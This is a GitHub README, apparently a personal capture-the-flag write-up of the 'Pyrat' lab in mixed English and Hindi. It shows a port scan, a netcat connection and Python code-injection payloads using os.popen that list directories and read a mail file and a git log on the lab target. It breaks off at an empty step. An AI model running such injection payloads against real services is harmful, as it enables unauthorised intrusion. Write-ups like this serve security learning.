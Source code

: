 # ctf-journey

# PYRAT CTF CHALLENGE

![image](https://github.com/idevyogi/ctf-journey/blob/1d2e7439ec3c447fea1c18a03770848f0baff211/Screenshot%202025-07-16%20164113.png)
![image](https://raw.githubusercontent.com/idevyogi/ctf-journey/5177707821f5c48910197600dc368d8e2d22ad02/PYRAT%20CTF%20CHALLENGE.png)

# Step 1 rustscan 

PORT        STATE       SERVICE       REASON

22/tcp      open         ssh         syn-ack ttl 60

8000/tcp    open      http-alt       syn-ack ttl 60

i cant go on ssh because i have zero information about credentials
so i browse port 8000 in fire fox browser

# Step 2 http://10.10.121.147:8000/
Try a more basic connection! 


TCP ya UDP connection banaana, jisme data end-to-end stream ke form me exchange hota hai — bina kisi extra formatting ke.

# Step 3  Usage of NETCAT for basic connection
nc <target_ip> <port>

(idevyogi㉿kali)-[~]
└─$ nc 10.10.121.147 8000
after this i got my cursor in next line and just blank theen i give hello nomral in it then it respond to me in this way
REASON OF HELLO -
✅ Agar reply milta hai, to samajh aata hai ki port alive aur responsive hai
hello
name 'hello' is not defined


# Step 4 as i know defined error is given in programming python so i try their code
print(1+1)
2
it works so now i will give input of python to retrieve information

# Step 5 i use python code for listed item 
print(__import__('os').popen('ls').read())

this not list file 

print(__import__('os').popen('ls /').read())
but this kist me item because from this ls /it give root directories files.
--  root directory listed in this way
bin
boot             # command   kya karti haii      KAB FAIL HO SKTI HAI
dev                  ls        CWD LIST KRNA      Agar inaccessible/empty hO
etc                  ls/       ROOT LIST KARNA     RARELY(ALWAYS ACCESIBLE)
home
lib
lib32
lib64
libx32
lost+found
media
mnt
opt
proc
root
run
sbin
srv
swap.img
sys
tmp
usr
var
# Step 6 In this now i will explore various directories in point of veiw of flag
so now i explore var
print(__import__('os').popen('cat /var/mail/think').read())
From root@pyrat  Thu Jun 15 09:08:55 2023
Return-Path: <root@pyrat>
X-Original-To: think@pyrat
Delivered-To: think@pyrat
Received: by pyrat.localdomain (Postfix, from userid 0)
        id 2E4312141; Thu, 15 Jun 2023 09:08:55 +0000 (UTC)
Subject: Hello
To: <think@pyrat>
X-Mailer: mail (GNU Mailutils 3.7)
Message-Id: <20230615090855.2E4312141@pyrat.localdomain>
Date: Thu, 15 Jun 2023 09:08:55 +0000 (UTC)
From: Dbile Admen <root@pyrat>

Hello jose, I wanted to tell you that i have installed the RAT you posted on your GitHub page, i'll test it tonight so don't be scared if you see it running. Regards, Dbile Admen

-- where i got this information
# Step 6 Now i go in the folder of the .git
print(__import__('os').popen('git --git-dir=/opt/dev/.git log').read())
commit 0a3c36d66369fd4b07ddca72e5379461a63470bf
Author: Jose Mario <josemlwdf@github.com>
Date:   Wed Jun 21 09:32:14 2023 +0000

    Added shell endpoint

--- where i got this type of information in this
Note - Now at this point i know some basic details which is in these two 

# Step 7 - 






